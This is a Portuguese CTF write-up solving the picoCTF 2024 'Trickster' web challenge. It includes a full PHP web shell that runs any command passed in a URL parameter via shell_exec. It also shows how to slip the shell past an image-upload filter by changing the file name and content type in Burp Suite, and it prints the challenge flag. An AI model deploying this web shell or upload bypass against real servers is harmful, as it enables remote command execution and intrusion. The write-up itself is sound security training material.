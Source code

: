 # DuckWare Team - Trickster (picoCTF 2024)
###### Solved by @Antonio-alexandre

> This is a CTF about SQL Injection, Web Exploitation

## Desafio: Trickster (Exploração Web)
#### Introdução

Este desafio explora vulnerabilidades em aplicações web. Para esse desafio, é necessário análise de páginas web, inspeção de código-fonte e técnicas de exploração de falhas.

- [Página do desafio](https://play.picoctf.org/practice/challenge/445)

#### Análise Inicial

A princípio, nos deparamos com um botão de iniciar instância. Ao clicar nele, nos deparamos com o seguinte link: 

- [Link da aplicação](http://atlas.picoctf.net:55192/)

E com a seguinte tela:

[![Imagem13.png](https://i.postimg.cc/xdBZPNY4/Imagem13.png)](https://postimg.cc/Mcbt6Tn7)

#### Solução

Para concluir o desafio, utilizaremos uma técnica que permite que seja criado um arquivo que nos permite executar comandos, mascarando a sua extensão. Para isso, é utilizado um arquivo `php` disfarçado com a extensão de imagem (ex: `png.php`). Esse arquivo contém um web shell que nos permite executar comandos direto para o servidor.

No arquivo `php`, utilizaremos o seguinte código:
```
PNG
<html>
<body>
<h2>Web Shell</h2>
<form method="GET">
    <input type="text" name="cmd" autofocus id="cmd" size="80" placeholder="Enter command">
    <input type="submit" value="Execute">
</form>
<pre>
<?php
    if (isset($_GET['cmd'])) {
        $command = $_GET['cmd'];
        echo shell_exec($command . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Esse código, de maneira resumida, cria uma interface bem simples que permite digitar e enviar comandos para o servidor.

Após criar o arquivo, o salvei com a extensão `.png`.

Após isso, ativei o modo Intercept do Proxy do Burp Suite. Esse modo Intercept nada mais é do que um modo que nos possibilita ver e editar as informações que iremos enviar antes de serem enviadas. Depois, tentei enviar normalmente a imagem para o site. 

Me deparei com a seguinte tela:

[![Imagem14.png](https://i.postimg.cc/J0FHy8jZ/Imagem14.png)](https://postimg.cc/BPxnydYn)

Para enviar como executável `.php`, precisei alterar as seguintes linhas: 
- `filename="webshell.png"` para `filename="webshell.png.php"`
- `image/png` para `application/php`

Após realizar esses passos, precisei digitar `/uploads/webshell.png.php` no final do link.

Ao realizar isso, me deparei com a seguinte tela: 

[![Imagem15.png](https://i.postimg.cc/k5yVQKxn/Imagem15.png)](https://postimg.cc/7CfYDCsc)

Nela, executei o seguinte comando: `find / -name "*.txt"`

O que esse comando faz é basicamente buscar todos os arquivos que possuam `.txt` como extensão.

O terminal então me retornou o seguinte: 

[![Imagem16.png](https://i.postimg.cc/C5Rzp291/Imagem16.png)](https://postimg.cc/m1GbQmLf)

Ao analisar todos os arquivos, encontrei o seguinte arquivo que me chamou bastante atenção:

- `/var/www/html/MFRDAZLDMUYDG.txt`

Após isso, digitei essas informações no terminal, junto com o comando `cat`, ficando assim: `cat /var/www/html/MFRDAZLDMUYDG.txt`

Esse comando basicamente mostra todas as informações escritas em um documento. Nesse caso, como é um .txt ele retornou o que estava escrito.

Por fim, dentro havia a flag do desafio.

>`picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03}`
 
